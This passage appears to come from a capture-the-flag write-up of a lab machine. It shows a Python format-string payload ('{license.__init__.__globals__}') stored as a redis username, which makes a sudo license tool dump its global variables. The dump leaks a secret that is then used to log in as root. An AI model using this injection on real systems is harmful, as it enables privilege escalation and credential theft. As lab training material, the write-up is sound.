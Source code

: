 ```
```
We can verify the change with another `hgetall`:
```
redis /var/run/redis/redis.sock> hgetall asdf
 1) "username"
 2) "{license.__init__.__globals__}"
 3) "password"
 4) "asdf"
 5) "first-name"
 6) "asdf"
 7) "last-name"
 8) "asdf"
 9) "pro"
10) "true"
```
Now when we execute the license generation for user `asdf`, the format exploit triggers and all global variables are printed:
```
cooper@format:~$ sudo /usr/bin/license  -p asdf

Plaintext license key:
------------------------------------------------------
microblog{'__name__': '__main__', '__doc__': None, '__package__': None, '__loader__': <_frozen_importlib_external.SourceFileLoader object at 0x7fa2f40bfc10>, '__spec__': None, '__annotations__': {}, '__builtins__': <module 'builtins' (built-in)>, '__file__': '/usr/bin/license', '__cached__': None, 'base64': <module 'base64' from '/usr/lib/python3.9/base64.py'>, 'default_backend': <function default_backend at 0x7fa2f3f12430>, 'hashes': <module 'cryptography.hazmat.primitives.hashes' from '/usr/local/lib/python3.9/dist-packages/cryptography/hazmat/primitives/hashes.py'>, 'PBKDF2HMAC': <class 'cryptography.hazmat.primitives.kdf.pbkdf2.PBKDF2HMAC'>, 'Fernet': <class 'cryptography.fernet.Fernet'>, 'random': <module 'random' from '/usr/lib/python3.9/random.py'>, 'string': <module 'string' from '/usr/lib/python3.9/string.py'>, 'date': <class 'datetime.date'>, 'redis': <module 'redis' from '/usr/local/lib/python3.9/dist-packages/redis/__init__.py'>, 'argparse': <module 'argparse' from '/usr/lib/python3.9/argparse.py'>, 'os': <module 'os' from '/usr/lib/python3.9/os.py'>, 'sys': <module 'sys' (built-in)>, 'License': <class '__main__.License'>, 'parser': ArgumentParser(prog='license', usage=None, description='Microblog license key manager', formatter_class=<class 'argparse.HelpFormatter'>, conflict_handler='error', add_help=True), 'group': <argparse._MutuallyExclusiveGroup object at 0x7fa2f2ab87c0>, 'args': Namespace(provision='asdf', deprovision=None, check=None), 'r': Redis<ConnectionPool<UnixDomainSocketConnection<path=/var/run/redis/redis.sock,db=0>>>, '__warningregistry__': {'version': 0}, 'secret': 'unCR4ckaBL3Pa$$w0rd', 'secret_encoded': b'unCR4ckaBL3Pa$$w0rd', 'salt': b'microblogsalt123', 'kdf': 
<...SNIP...>
```
Here we can see the secret variable: `unCR4ckaBL3Pa$$w0rd`. This turns out to be the password for root!
```
cooper@format:~$ su
Password: 
root@format:/home/cooper# 
```
## Reflection
The initial vulnerability utilized to set our user account to "Pro" was something I have never seen before, and very interesting to discover! I liked how the box had a central focus on the redis applications, even to the point where we need to use it three times, each with a different goal and technique. The privilege escalation to root, however, I found to be rather frustratingly inconspicuous. It felt that if someone was unaware of particular python interactions, then there was very little chance to figure it out without external guidance. Moreover, having the secret key also being the root password is weird, a little too much like a CTF challenge.
